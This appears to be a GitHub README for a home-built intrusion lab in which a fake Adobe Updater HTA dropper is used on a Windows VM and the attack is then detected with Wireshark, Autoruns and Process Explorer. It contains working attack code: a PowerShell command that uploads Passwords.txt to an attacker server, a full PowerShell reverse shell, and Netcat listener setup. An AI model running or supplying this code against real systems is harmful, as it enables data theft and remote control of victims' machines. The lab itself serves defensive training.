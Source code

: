 ## 💀 AdobeUpdater Intrusion Lab: Red Team Attack + Blue Team Detection 🛡️

Simulates a stealthy AdobeUpdater attack to demonstrate both red team tactics and blue team detection using real-world tools in a Windows environment.

---

## 🧠 About This Lab

This hands-on intrusion simulation demonstrates the *full attack chain* — from phishing execution to post-exploitation — followed by detailed detection and investigation using tools like **Wireshark**, **Autoruns**, and **Process Explorer**.

I created everything from scratch:
- The **fake Adobe Updater** dropper (`.hta` with VBScript)
- Embedded **Base64-encoded PowerShell** for a reverse shell
- **Registry persistence** and stealth icon spoofing
- A custom **Python upload server** to simulate exfiltration

🧩 The walkthrough is split into two perspectives:
- 💀 **Red Team:** Step-by-step attack execution
- 🛡️ **Blue Team:** Detection and triage workflow

> ⚠️ This project is designed to showcase my understanding of both offensive and defensive security workflows — especially relevant to SOC analyst roles.

### 🔧 **Lab Replication Coming Soon !**  
### Want to build this exact lab yourself ? A full setup guide is in the works.
---

## 🌌 Technical Overview

This simulation uses a **fake Adobe Updater UI** (`.hta`) that deploys:

- **PowerShell reverse shell** to a remote Netcat listener  
- **Registry Run key persistence**  
- **Stealthy VBScript execution**  
- **Decoy visuals** to enhance realism  
- **Base64 encoding and realistic icon spoofing**

Intended for ethical red team demonstrations, SOC analyst training, and detection engineering labs.

The project directory is organized as follows:

## 📁 Project Structure
```
.
├── payload/ # HTA payload and artifacts
│ ├── AdobeUpdater.hta # Main dropper with embedded VBScript and UI
│ ├── adobe.ico # Spoofed Adobe icon
│ ├── adb1.png # Decoy loading screen
│ └── .gitkeep
├── analysis/
│ └── screenshots/ # All demo screenshots (1.png–27.png + kt1.png/kt2.png)
├── README.md
```
## 🔄 How It Works

1. **User executes** the `.hta` payload mimicking a legitimate Adobe updater.
2. Payload runs an embedded VBScript, which:
 - **Launches a PowerShell reverse shell**
 - **Adds a `Run` registry key for persistence**
 - **Displays a fake update window to distract the user**
3. **Reverse shell is caught** by the attacker's Netcat listener.

---

## 👁️ Demo Walkthrough

### 1. Attacker Prepares for Callback and File Exfiltration 

*On the attacker’s side, two terminals are opened — one to catch a reverse shell as shown in Figure 1, and<br>
one to handle file uploads as shown in Figure 2.*
<br><sub>(Figure 1)</sub><br>
<img src="analysis/screenshots/kt2.png" alt="Kali Terminal: Netcat Listener" width="75%"><br>
<em>In this terminal a Netcat listener is started on port 443 for the reverse shell.</em>
<br><sub>(Figure 2)</sub><br>
<img src="analysis/screenshots/kt1.png" alt="Kali Terminal: Upload Server" width="75%"><br>
<em>In this terminal, the attacker starts a Python upload server on port 8080.</em>
</p>

---

### 2. Fake Adobe Updater
*The malicious shortcut on the desktop mimics a genuine Adobe software updater.*
<br><sub>(Figure 3)</sub><br>
![Desktop Shortcut](analysis/screenshots/2.png)<br> 
*When the victim clicks on the decoy updater as shown in Figure 3, a window with a fake "critical security updates" message appears.<br> 
Once the OK button is clicked the connection is made back to the Netcat listener as shown in Figure 6*
<br><sub>(Figure 4)</sub><br>
![Installer Popup](analysis/screenshots/3.png)  
<br><sub>(Figure 5)</sub><br>
![Progress Bar](analysis/screenshots/4.png)  
*For an added, realistic effect a fake progress bar is shown
to mask the malicious activity.*<br>

---
### 3. Payload Execution & Reverse Shell Connection Made
*In Figure 6, we can see the attacker successfully catches the reverse shell and a connection is now established from the victim’s machine back to the attacker's Netcat listener.
Next, the attacker runs the `ls` command to list the contents of the current working directory.*
<br><sub>(Figure 6)</sub><br>
<img src="analysis/screenshots/5.png" alt="Payload connects" width="65%"><br>

### 4. Attacker Navigates the File System
*In Figure 7, the attacker begins backing out of the current directory using the `cd` command repeating `cd ..` until reaching the user's home directory.
They then run the `ls` command again and spot the Documents directory witch is there target.*
<br><sub>(Figure 7)</sub><br>
<img src="analysis/screenshots/6.png" alt="Directory listing" width="65%"><br>

*Figure 8 shows the attacker using the `cd` command to enter the Documents directory.*
<br><sub>(Figure 8)</sub><br>
<img src="analysis/screenshots/7.png" alt="Navigating directories" width="65%"><br>

*In Figure 9, we see the attacker has successfully navigated into the Documents folder. Inside, they spot a file named Passwords.txt.*
<br><sub>(Figure 9)</sub><br>
<img src="analysis/screenshots/8.png" alt="Accessing Documents" width="65%"><br>

---

### 5. Second Stage of the Attack: Uploading the File
*Now that the attacker has successfully navigated through the file system and reached the Documents directory, they’ve located the Passwords.txt file.
At this point they’re ready to begin the second stage of the attack. They’ve almost reached Step 7 of the Cyber Kill Chain — Actions on Objectives — but not quite yet.*

---
*In Figure 10, we can see the attacker preparing to use a PowerShell command with the PUT method to upload the Passwords.txt file to their Python-based upload server.*
<br><sub>(Figure 10)</sub><br>
<img src="analysis/screenshots/11.png" alt="Upload success" width="65%"><br>

*Refer to **Figure 11** for how the exfiltration command is constructed.*
<br><sub>(Figure 11)</sub><br>
<img src="analysis/screenshots/9.png" alt="PowerShell Exfiltration Command Reference" width="75%"><br>
Then, run the following PowerShell command to upload the `Passwords.txt` file to the attacker's Python server:
 ```powershell
powershell -c "Invoke-WebRequest -Uri http://192.168.78.129:8080/Passwords.txt -Method Put -InFile 'C:\Users\IEUser\Documents\Passwords.txt'"
# ⚠️ Make sure to update the IP address to match your attacker's listener
```
---
*In Figure 12, we return to the second terminal first mentioned in Figure 2. This is the terminal running the Python upload server on port 8080, and you'll notice it’s still idle. For this demo, the folder containing the Python script has been opened and placed at the bottom of the screen. The reason: if anything gets uploaded, we’ll see it appear here in real-time. As of now, there are only four files in the directory.*
<br><sub>(Figure 12)</sub><br>
<img src="analysis/screenshots/10.png" alt="Exfiltration command" width="65%"><br>

*Next in Figure 13, after the PowerShell command from Figure 10 is run, we get a hit — the `Passwords.txt` file is displayed in the command line output. And just like we talked about in Figure 12, the folder now shows five files, one of them being `Passwords.txt,` confirming the upload was successful.*
<br><sub>(Figure 13)</sub><br>
<img src="analysis/screenshots/12.png" alt="Wireshark: TCP stream" width="65%"><br>

---
## 🛡️ Defender’s Perspective: Detecting the Attack in Action

Now that we’ve followed the attacker’s full playbook — from clicking the fake Adobe updater to catching a reverse shell and exfiltrating `Passwords.txt` — let’s switch gears and step into the defender’s shoes.

This next section walks through how security analysts can spot and respond to this kind of behavior using network traffic analysis tools like Wireshark, autorun entries, and Process Explorer.

---

In **Figure 14**, we have a Wireshark capture that was running during the attack. In this screenshot, we can see a `PUT` request made for the `Passwords.txt` file — indicating possible data exfiltration over HTTP.
<br><sub>(Figure 14)</sub><br>
<img src="analysis/screenshots/13.png" alt="Wireshark: HTTP PUT" width="75%"><br>

In **Figure 15**, now that we’ve confirmed a PUT request occurred, we can filter the capture to isolate it. To do this, we type the following into Wireshark’s display filter bar `http.request.method == "PUT"`
Then hit the **blue arrow** in the top-right to apply the filter.
<br><sub>(Figure 15)</sub><br>
<img src="analysis/screenshots/15.png" alt="Wireshark Focused" width="75%"><br>

In **Figure 16**, we see there was only one `PUT` request made, which confirms our earlier finding — the exfiltrated file was `Passwords.txt`.
<br><sub>(Figure 16)</sub><br>
<img src="analysis/screenshots/16.png" alt="Follow Stream" width="75%"><br>

Next, in **Figure 17**, if we right-click on the filtered packet and choose **Follow > HTTP Stream** (highlighted in blue). This allows us to view the entire payload of the HTTP session and validate what was transferred.
<br><sub>(Figure 17)</sub><br>
<img src="analysis/screenshots/18.png" alt="Exfiltrated Contents" width="65%"><br>

In **Figure 18**, after following the HTTP stream, we can see the full contents of the `PUT` request — exposing exactly what the attacker exfiltrated.
We also see other important details, such as the server responding with a `201 Created` status, confirming a successful upload. The `User-Agent` header shows the transfer was performed using `Python/3.11.9`, pointing to Python’s built-in `http.server` module.
An internal host sending a `PUT` request over port 8080 using non-standard tools like this should raise red flags during packet inspection.
<br><sub>(Figure 18)</sub><br>
<img src="analysis/screenshots/19.png" alt="Autoruns Registry" width="65%"><br>

---
### 🔍 Persistence Detection via Autoruns and Registry Analysis

In this section, we identify how the attacker achieved persistence using a registry-based autorun entry. The screenshots below walk through the detection process using Sysinternals Autoruns and the Windows Registry Editor.

---

**Figure 19** shows a suspicious autorun entry under:`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
The entry is named `AdobeTaskHelper`, but it's launching `powershell.exe` instead of a legitimate Adobe executable. This is an immediate red flag.<br>
There is no known Adobe tool that launches via PowerShell, and the naming is clearly meant to blend in with trusted vendor software.
<br><sub>(Figure 19)</sub><br>
<img src="analysis/screenshots/20.png" alt="Registry Key Contents" width="65%"><br>

Next, in **Figure 20** we can right-click the suspicious entry in Autoruns and choose **Jump to Entry** to check the corresponding registry location for validation.
<br><sub>(Figure 20)</sub><br>
<img src="analysis/screenshots/21.png" alt="Process Explorer Powershell" width="65%"><br>

**Figure 21** confirms the full registry key using **Regedit**. The `AdobeTaskHelper` entry executes the following command at startup:<br>`powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command ...`
This PowerShell command is used to maintain persistence by silently relaunching the attacker’s reverse shell payload on system boot. Combined with the misleading name and stealthy execution, this is a textbook example of registry-based persistence via PowerShell masquerading.
<br><sub>(Figure 21)</sub><br>
<img src="analysis/screenshots/22.png" alt="Process Image Path" width="65%"><br>

---
### 🔍 Process Inspection with Process Explorer

This section highlights suspicious process behavior observed using Sysinternals Process Explorer. Each figure calls out relevant evidence tied to the attacker’s execution and persistence.

---
**Figure 22** shows a suspicious `powershell.exe` process running under the user `IEUser`. This process is not expected under normal conditions and does not match any known authorized scripts.
<br><sub>(Figure 22)</sub><br>
<img src="analysis/screenshots/23.png" alt="TCP/IP Connections" width="65%"><br>

**Figure 23** drills into the process properties of `powershell.exe`. The command line confirms it’s executing with<br>
`-ExecutionPolicy Bypass -WindowStyle Hidden`, which is commonly used to evade detection. The **current directory** is also telling — it's set to:`C:\Users\IEUser\Downloads\Test Malware\AdobeUpdater\` This aligns directly with the malicious payload path.
<br><sub>(Figure 23)</sub><br>
<img src="analysis/screenshots/24.png" alt="Payload Directory" width="55%"><br>

**Figure 24** shows the **TCP/IP** tab of the same process, confirming it has an active network connection to:`192.168.78.129:HTTPS`<br>This indicates that the PowerShell process is maintaining a live connection — supporting evidence of a reverse shell callback.
<br><sub>(Figure 24)</sub><br>
<img src="analysis/screenshots/25.png" alt="Payload Shortcut" width="55%"><br>

**Figure 25** shows the PowerShell process’s working directory alongside the actual folder contents in File Explorer. The folder contains the Adobe files including the shortcut named `AdobeUpdater` — which was placed on the user’s desktop.This shortcut is what the user initially interacted with, triggering the chain of events. This visually confirms how the attack was disguised as a legitimate update and how the user was tricked into executing it.
<br><sub>(Figure 25)</sub><br>
<img src="analysis/screenshots/27.png" alt="Attacker Listener" width="65%"><br>

---


## 🧪 PowerShell Reverse Shell (Payload)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.78.129",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()
```

---

## 📃 MITRE ATT&CK Mapping

| Technique         | ID         | Description                        |
|------------------|------------|------------------------------------|
| Initial Access    | T1204.002  | User Execution via HTA             |
| Execution         | T1059.001  | PowerShell                         |
| Persistence       | T1547.001  | Registry Run Key                   |
| Defense Evasion   | T1218.005  | LOLBAS via `wscript.exe`           |
| Command & Control | T1071.001  | Reverse Shell over TCP             |

---
## **This section is not Completed** / **Full Lab Replication Coming Soon !**  
## 🚧 Setup Instructions 

1. **Start Netcat listener on Kali**
   ```bash
   nc -lvnp 443
   ```

2. **Serve the payload**
   ```bash
   cd payload/
   python3 -m http.server 8888
   ```

3. **Trigger on victim**
   - Browse to hosted `.hta` from Windows VM
   - Execute it

---

## 🗋 Notes

- Tested on Windows 10 with default settings
- Avoid running on production systems
- Always use in an isolated lab environment

> **Disclaimer:** For educational use only. Do not deploy on unauthorized systems.

---
